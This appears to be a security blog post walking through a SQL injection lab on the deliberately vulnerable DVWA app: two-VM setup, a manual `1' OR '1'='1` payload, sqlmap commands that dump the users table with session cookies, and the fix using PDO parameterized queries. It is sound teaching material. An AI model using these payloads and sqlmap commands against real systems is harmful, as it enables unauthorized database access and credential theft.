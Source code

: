 ```yaml
---
layout: post
title:  "Hands‑On SQL Injection Lab: DVWA from Exploit to Patch"
date: 2025-07-29 18:59:00 -0500
categories: pentesting web-security sql-injection
tags: [DVWA, SQLi, penetration-testing, cyber-security, git]
---
```


In this lab, we’ll walk through a complete **SQL Injection** lifecycle using the Damn Vulnerable Web Application (DVWA). You’ll learn how to:

1. **Set up** a two‑VM environment: Kali Linux (attacker) & Ubuntu + DVWA (target)  
2. **Manually exploit** the SQLi vulnerability  
3. **Automate** the attack with `sqlmap`  
4. **Troubleshoot** sessions, redirects, and cookie issues  
5. **Patch** the vulnerability and **verify** the fix

## TL;DR

- **Setup**: Two‑VM lab with Kali Linux (attacker) and Ubuntu + DVWA (target)  
- **Manual Exploit**: Used `1' OR '1'='1` in DVWA’s SQLi page to retrieve user records  
- **Automation**: Leveraged `sqlmap` with valid `PHPSESSID` and `security=low` cookies to dump the `dvwa.users` table  
- **Troubleshooting**: Resolved 302 redirects, cookie formatting, URL quoting, and cache issues (`--flush-session`)  
- **Patch**: Switched DVWA to “High” security—uses PDO parameterized queries—and confirmed injection is blocked  
- **Key Lesson**: Always use parameterized queries to prevent SQL Injection; hands‑on debugging is as important as the exploit.  

---

## 🛠 Environment Setup

1. **Ubuntu Server** VM (DVWA target)  
   - Install Apache, PHP, MySQL:  
     ```bash
     sudo apt update
     sudo apt install -y apache2 php libapache2-mod-php php-mysql mysql-server
     ```
   - Clone DVWA and configure database:  
     ```bash
     cd /var/www/html
     sudo git clone https://github.com/digininja/DVWA.git
     cd DVWA/config
     sudo cp config.inc.php.dist config.inc.php
     ```
   - Edit `config.inc.php`:
     ```php
     $_DVWA['db_user']                 = 'dvwauser';
     $_DVWA['db_password']             = 'password';
     $_DVWA['enable_phpids']           = false;
     $_DVWA['disable_authentication_tokens'] = true;
     ```
   - Create database & user in MySQL:
     ```sql
     CREATE DATABASE dvwa;
     CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
     GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost';
     FLUSH PRIVILEGES;
     ```
   - Restart Apache and complete setup at `http://<IP>/DVWA/setup.php`.

   ![DVWA Setup Success](/assets/dvwa-setup.png)
   Ensure you follow DVWA set-up carefully as a misconfigured file gave me quite the headache!

2. **Kali Linux** VM (Attacker)  
   - Install tools:
     ```bash
     sudo apt update
     sudo apt install -y sqlmap curl
     ```
   - Ensure you can browse to DVWA (`admin`/`password`) and set security **Low**.

---

## 🔍 Phase 1: Manual SQL Injection

Navigate to:

```
http://<IP>/DVWA/vulnerabilities/sqli/
```

Enter in **ID** field:
```
1' OR '1'='1
```
Submit and observe multiple user records returned—proof of SQLi.

![](/assets/manual-sqli.png)

---

## 🤖 Phase 2: Automating with sqlmap

1. **Grab your session cookie** from the Kali browser (`PHPSESSID`, `security=low`).  
2. **Verify** access to the injection point:
   ```bash
   curl -IL --cookie "PHPSESSID=<ID>; security=low" \
       "http://<IP>/DVWA/vulnerabilities/sqli/?id=1"
   # Expect HTTP/1.1 200 OK
   ```

3. **Enumerate databases**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     --dbs --batch --flush-session
   ```
4. **Dump `users` table**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     -D dvwa -T users --dump --batch --flush-session
   ```

   You’ll retrieve `user_id`, `user`, and MD5 `password` hashes.

![](/assets/sqlmap-dump.png)

---

## 🔧 Troubleshooting Highlights

* **302 Redirects**: Ensure you log in from **Kali VM**, not host.
* **Cookie Errors**: Use correct format:
  ```
  --cookie="PHPSESSID=<ID>; security=low"
  ```
* **Malformed URL**: Wrap URL in quotes, include `?id=1`.
* **Cache Issues**: Use `--flush-session` to clear sqlmap cache.

---

## 🛡 Phase 3: Patching & Verification

1. In DVWA **Security** menu, set to **High** → Submit.
2. Review `high.php`—it uses PDO parameterized queries:
   ```php
   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
   $stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
   $stmt->execute();
   ```
3. **Retest**:
   * Manual payload `1' OR '1'='1` → **no data**
   * `sqlmap --dbs` → **no injectable parameters**

![](/assets/patch-verified.png)

---

## 🎓 Key Takeaways

* **SQL Injection** exploits unvalidated input—classic payload `1' OR '1'='1`.
* Tools like **sqlmap** automate enumeration but require proper cookies & session context.
* **Prepared statements** are the gold‑standard defense against SQLi.
* Hands‑on troubleshooting is as critical as the exploit itself.

---

## 📂 Resources

* **GitHub Repo:** [JohnSeanson/sql-injection-dvwa-lab](https://github.com/JohnSeanson/sql-injection-dvwa-lab)
* **Live Report:** [johnseanson.github.io](https://johnseanson.github.io)
* **DVWA:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
* **sqlmap:** [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

---

*Ready to try it yourself? Fork the repo, spin up your VMs, and share your results! Happy hacking and stay secure.*

